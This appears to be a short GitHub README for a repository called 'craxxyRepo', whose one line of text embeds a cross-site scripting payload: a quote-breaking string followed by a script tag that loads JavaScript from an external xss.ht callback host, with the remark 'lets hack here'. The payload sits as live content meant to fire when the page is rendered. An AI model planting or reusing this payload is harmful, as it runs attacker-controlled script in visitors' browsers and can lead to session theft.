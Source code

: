 # craxxyRepo
nice repo i made'">&lt;script src=https://tabahi90.xss.ht>&lt;/script> !   lets hack here
